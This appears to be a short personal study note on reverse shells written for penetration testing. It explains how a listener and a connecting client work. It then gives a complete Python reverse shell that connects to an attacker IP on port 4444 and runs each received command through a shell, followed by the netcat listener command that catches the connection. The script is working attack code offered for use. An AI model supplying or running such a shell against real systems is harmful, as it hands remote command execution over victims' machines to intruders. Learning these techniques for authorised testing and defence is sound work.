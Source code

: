 Tags: [[Python]] [[Bash]] [[Cybersecurity]] [[Penetration Testing]] [[Reverse Shell]] 

A reverse shell is a type of connection where an attacker’s machine acts as a listener (server), and the compromised machine connects back to it (client). This is often used during penetration tests to bypass firewalls and NAT configurations, as outbound connections (from the target to the attacker) are less likely to be blocked

### **How a Reverse Shell Works**

1. **Attacker's Machine (Listener)**:
    
    - Sets up a server or listener (e.g., with `netcat` or a Python script) to wait for incoming connections.
2. **Victim's Machine (Client)**:
    
    - Runs a script that connects to the attacker’s machine and redirects input/output to a shell.
3. **Interaction**:
    
    - Once the connection is established, the attacker can execute commands on the victim's machine as if they were physically at the terminal.


## Basic Reverse Shell 
#ReverseShell

```python
import socket
import subprocess

# Define attacker's IP and port
attacker_ip = "192.168.1.100"  # Replace with your IP
attacker_port = 4444           # Replace with your desired port

# Create a socket connection
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((attacker_ip, attacker_port))

# Redirect commands to a shell
while True:
    # Receive command from attacker
    command = client_socket.recv(1024).decode("utf-8")
    if command.lower() == "exit":
        break

    # Execute the command and capture the output
    try:
        output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT, text=True)
    except subprocess.CalledProcessError as e:
        output = str(e)

    # Send the output back to the attacker
    client_socket.send(output.encode("utf-8"))

# Close the connection
client_socket.close()

```

## Attackers Terminal 

Netcat would be used on the attackers computer to pick up the connection made from the python script.  #Netcat

```Bash
nc -lvnp 4444
```

